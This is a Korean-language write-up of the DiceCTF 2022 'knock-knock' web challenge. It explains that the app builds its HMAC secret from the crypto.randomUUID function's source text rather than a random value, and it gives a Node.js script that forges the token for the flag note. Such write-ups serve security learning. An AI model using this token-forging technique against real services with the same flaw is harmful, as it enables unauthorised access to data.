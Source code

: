 # DiceCTF 2022 WriteUp 
**CTF start Date: 2022-02-04 (2 day)**
***
- **[WEB] knock-knock (356 solves/107 points)**
- **[WEB] no-cookies (5 solves/415 points)**
- 

## [WEB] knock-knock 
Knock knock? Who's there? Another pastebin!!

URL: https://knock-knock.mc.ax/

(356 solves/107 points)

#### Analyse
문제에서 제공된 사이트에서 글쓰기, 읽기 기능을 확인할 수 있었다.

또한 문제 사이트의 소스코드가 제공이 되어 각각의 기능들을 파악하기 수월했다.

```
class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}
const db = new Database();
db.createNote({ data: process.env.FLAG });
```

위 소스코드는 글쓰기, 읽기를 위해 작성된 코드이며 글을 생성하기 위한 **createNote** 함수에선 글이 몇번째 글인지 확인하는 **id** 값과 id 값으로 생성되는 **token**을 만들고, 글을 읽기 위한 **getNote** 함수에선 id, token값을 받아 id값으로 token을 생성하고 전달받은 token값과 비교해 일치하면 사용자에게 id에 해당하는 글을 전달하는 것을 알 수 있다.


token을 생성하는 함수는 **generateToken** 함수이며 **this.secret** 값을 암호화 키로 id값을 sha256 HMAC으로 변환해 token을 생성한다.


**this.secret** 값은 \`secret-${crypto.randomUUID}\`와 같이 template string으로 되어 있었다.


**flag**는 서비스가 시작될 때 글로 생성되어 지는걸 확인 할 수 있었다. 
flag가 포함된 글의 id값은 createNote 함수의 `const id = this.notes.length;` 코드로 생성되기에 0의 값을 가지는걸 알 수 있다.


#### Find out the secret value

this.secret 값을 파악하기 위해 this.secret에 사용된 crypto.randomUUID 값을 보았다.

```
> crypto.randomUUID
[Function: randomUUID]

> crypto.randomUUID.toString()
'function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
```

예상과는 다르게 crypto.randomUUID는 string type이 아닌 function type을 가지고 있었고 toString의 결과값은 함수의 내용을 출력하고 있었다.
따라서 \`secret-${crypto.randomUUID}\` 값은 random한 UUID값이 아닌 유추가능하고 일정한 값임을 알 수 있었다.

```
> `secret-${crypto.randomUUID}`
'secret-function randomUUID(options) {\n' +
  '  if (options !== undefined)\n' +
  "    validateObject(options, 'options');\n" +
  '  const {\n' +
  '    disableEntropyCache = false,\n' +
  '  } = { ...options };\n' +
```

#### Generate flag token and read flag

서버와 동일한 버전의 nodejs에서 사용해야 한다.

```
const request = require('request');
const crypto = require('crypto');
uri = "https://knock-knock.mc.ax/"
secret = `secret-${crypto.randomUUID}`;
token = crypto.createHmac('sha256', secret).update('0').digest('hex');
uri += `note?id=0&token=${token}`
const options = {
        uri,
};
request.get(options, function (error, response, body) {
        console.log(body);
});
```
***
